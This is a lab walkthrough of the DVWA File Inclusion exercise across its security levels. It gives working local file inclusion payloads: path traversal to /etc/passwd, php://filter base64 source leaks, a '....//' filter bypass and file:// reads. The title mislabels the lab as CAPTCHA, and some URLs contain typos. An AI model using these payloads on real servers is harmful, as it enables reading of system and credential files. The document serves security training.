 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/fi
---
```


# Insecure CAPTCHA --

<details>

<summary>What is a File Inclusion?</summary>

A **file inclusion** attack is a type of security exploit that takes advantage of improper or unchecked input handling in web applications. The goal of such an attack is to include files on a server through the web browser. There are two main types of file inclusion attacks: Local File Inclusion (LFI) and Remote File Inclusion (RFI).

1. **Local File Inclusion (LFI):**
   * In an LFI attack, an attacker tries to include files that are already present on the target system. These files could be configuration files, system files, or any other sensitive information.
   * The attacker manipulates input parameters or user-controlled data in a way that the application includes a file from the local file system.
   * For example, if a web application includes a file based on user input without proper validation, an attacker might input a malicious path to include sensitive files.
2. **Remote File Inclusion (RFI):**
   * RFI is a more severe form of file inclusion attack where the attacker includes files from a remote server controlled by them.
   * The attacker injects a URL pointing to a file on a remote server into a parameter or input field, and the application fetches and includes the contents of that remote file.
   * This can lead to the execution of arbitrary code on the server, potentially allowing the attacker to take control of the system.

File inclusion vulnerabilities can occur due to poor input validation and lack of proper security measures in web applications. To prevent file inclusion attacks, developers should:

* Validate and sanitize user input.
* Avoid dynamically including files based on user input without proper validation.
* Implement proper access controls to restrict file access.
* Use secure coding practices and frameworks that handle user input securely.

Regular security assessments, code reviews, and penetration testing can help identify and mitigate file inclusion vulnerabilities in web applications.

</details>

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've a div containing three distinct hyperlinks, each triggering the display of various files within the web application upon activation. The exhibition of a specific file is accomplished through the utilization of the subsequent GET request.

<div align="left">

<figure><img src="../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src="../.gitbook/assets/image (200).png" alt=""><figcaption><p>file1.pho</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (201).png" alt=""><figcaption><p>file2.php</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (202).png" alt=""><figcaption><p>file3.php</p></figcaption></figure>

<div align="left">

<figure><img src="../.gitbook/assets/image (203).png" alt=""><figcaption></figcaption></figure>

</div>

```http
GET /DVWA/vulnerabilities/fi/?page=file1.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/DVWA/vulnerabilities/fi/?page=include.php
Connection: close
Cookie: security=low; PHPSESSID=s7nq882ng75b21h8b8uc4rmaod
Upgrade-Insecure-Requests: 1
```

This is php code of this level:

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

The concept involves manipulating the filename within the page parameter to any desired file on the target, enabling us to retrieve its contents. By employing the following GET request, we can read the contents of the etc password file.

#### 1st Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
```

Replacing this path: `../../../../../../etc/passwd` at file1.php, we obtain result of command in html output:

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

If the goal is to disclose certain PHP code, one approach is to utilize PHP filters to encode the PHP code into base64.

#### 2nd Payload

```url
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd
```

but the request is to see `fi.php` file, then we use this URL:

```
http://evil/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=../../../../../var/www/html/hackable/flags/fi.php
```

which gives us the following base64 payload

```bash
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

Decoding it, we obtain this php code:

```php
<?php

if( !defined( 'DVWA_WEB_PAGE_TO_ROOT' ) ) {
	exit ("Nice try ;-). Use the file include next time!");
}

?>

1.) Bond. James Bond

<?php

echo "2.) My name is Sherlock Holmes. It is my business to know what other people don't know.\n\n<br /><br />\n";

$line3 = "3.) Romeo, Romeo! Wherefore art thou Romeo?";
$line3 = "--LINE HIDDEN ;)--";
echo $line3 . "\n\n<br /><br />\n";

$line4 = "NC4pI" . "FRoZSBwb29s" . "IG9uIH" . "RoZSByb29mIG1" . "1c3QgaGF" . "2ZSBh" . "IGxlY" . "Wsu";
echo base64_decode( $line4 );

?>

<!-- 5.) The world isn't run by weapons anymore, or energy, or money. It's run by little ones and zeroes, little bits of data. It's all just electrons. -->
```

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

<figure><img src="../.gitbook/assets/image (204).png" alt=""><figcaption></figcaption></figure>

In this case, code includes a little validation checks:

`$file = str_replace( array( "http://", "https://" ), "", $file );`\
`$file = str_replace( array( "../", "..\\" ), "", $file );`

it tries to remove all sorts of http and https protocol usage, trying to remove the possibility for a Remote File Inclusion (RFI), and it also replaces `../` with the empty string: `""`.

The handling of the '../' character sequence is insufficient, as the validation is not performed recursively.

#### 1st Payload

```bash
....//....//....//....//....//etc/passwd
```

After input validation (not recursive), changing ../ to "", we obtain this result:

```
../../../../../etc/passwd
```

Then full URL will be this:

```
http://localhost/DVWA/vulnerabilities/fi/?page=....//....//....//....//....//etc/passwd/passwd
```

\
How the low level, adding the php filters we can also leak the server’s php code:

```
http://localhost/DVWA/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=....//....//....//....//....//var/www/html/hackable/flags/fi.php
```

and we get the following base64

```
PD9waHAKCmlmKCAhZGVmaW5lZCggJ0RWV0FfV0VCX1BBR0VfVE9fUk9PVCcgKSApIHsKCWV4aXQgKCJOaWNlIHRyeSA7LSkuIFVzZSB0aGUgZmlsZSBpbmNsdWRlIG5leHQgdGltZSEiKTsKfQoKPz4KCjEuKSBCb25kLiBKYW1lcyBCb25kCgo8P3BocAoKZWNobyAiMi4pIE15IG5hbWUgaXMgU2hlcmxvY2sgSG9sbWVzLiBJdCBpcyBteSBidXNpbmVzcyB0byBrbm93IHdoYXQgb3RoZXIgcGVvcGxlIGRvbid0IGtub3cuXG5cbjxiciAvPjxiciAvPlxuIjsKCiRsaW5lMyA9ICIzLikgUm9tZW8sIFJvbWVvISBXaGVyZWZvcmUgYXJ0IHRob3UgUm9tZW8
```

To get an RFI instead we can use `php streams`.

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## High

<div align="left">

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

</div>

In this code the're two validation checks:

1. The `fnmatch()` function in PHP, which matches strings against patterns using shell-style wildcards. In our scenario, it matches any file that begins with 'file.'
2. The condition `$file != 'include.php'` introduces a specific case where the 'if' statement fails only when the file doesn't start with 'file' and is precisely 'include.php'.

#### 1st Payload

Regarding LFI exploitation, the code solely verifies whether the parameter begins with 'file' and does not examine its ending. Consequently, we can employ the following GET request to expose the 'passwd' file.

```
http://localhost/DVWA/vulnerabilities/fi/?page=file/../../../../../../../etc/passwd
```

however we cannot seem to able to use the php filters to leak php code by using the base64 converter.

#### 2nd Payload

An alternative approach involves leveraging the file protocol to access and read any file in the system based on its given path.

```html
http://localhost/DVWA/vulnerabilities/fi/?page=file:///etc/passwd
http://localhost/DVWA/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php
```

{% hint style="warning" %}
The input is not sanitized sufficiently , so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Site isn't vulnerable to File Inclusion attack because the request includes only possible lecit value/page.
{% endhint %}

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion](https://github.com/LeonardoE95/DVWA/tree/main/src/file\_inclusion)
